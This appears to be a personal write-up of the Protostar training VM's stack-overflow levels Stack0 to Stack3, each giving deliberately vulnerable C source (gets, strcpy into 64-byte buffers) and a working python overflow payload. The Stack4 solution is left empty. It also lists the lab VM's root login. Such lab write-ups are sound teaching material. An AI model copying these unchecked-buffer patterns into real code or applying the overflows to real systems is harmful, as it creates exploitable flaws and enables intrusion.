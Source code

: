 ### Install

> protostar vm on parallels
> root/godmod and ifconfig

### Stack0

> /opt/protostar/bin/stack0

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  modified = 0;
  gets(buffer);

  if(modified != 0) {
      printf("you have changed the 'modified' variable\n");
  } else {
      printf("Try again?\n");
  }
}
```

The concepts I need to know : `parameter passing to gets()`, `order of local parameters on the stack`, `command line python script` 

```
$ (python -c 'print "A"*64+"BBBB"';cat)|./stack0
you have changed the 'modified' variable
```

### Stack1

> /opt/protostar/bin/stack1

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];

  if(argc == 1) {
      errx(1, "please specify an argument\n");
  }

  modified = 0;
  strcpy(buffer, argv[1]);

  if(modified == 0x61626364) {
      printf("you have correctly got the variable to the right value\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }
}
```

The concepts I need to know : `endian in memory`

```
$ ./stack1 `python -c 'print "A"*64+"\x64\x63\x62\x61"'`
you have correctly got the variable to the right value
```

### Stack2

> /opt/protostar/bin/stack2

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

The concepts I need to know : `shell variable`, `env variable`

```
$ GREENIE=`python -c 'print "A"*64+"\x0a\x0d\x0a\x0d"'`
$ export GREENIE
$ ./stack2
you have correctly modified the variable
```

### Stack3

> /opt/protostar/bin/stack3

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

The concepts I need to know : `getting address of the function`, `objdump`

```
$ objdump -d ./stack3 | grep win
08048424 <win>:
$ (python -c 'print "A"*64+"\x24\x84\x04\x08"';cat)|./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```

### Stack4

> /opt/protostar/bin/stack4

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

The concepts I need to know : `gdb`, `make eip value modified`, `assembly lea    0x10(%esp),%eax`

```
```
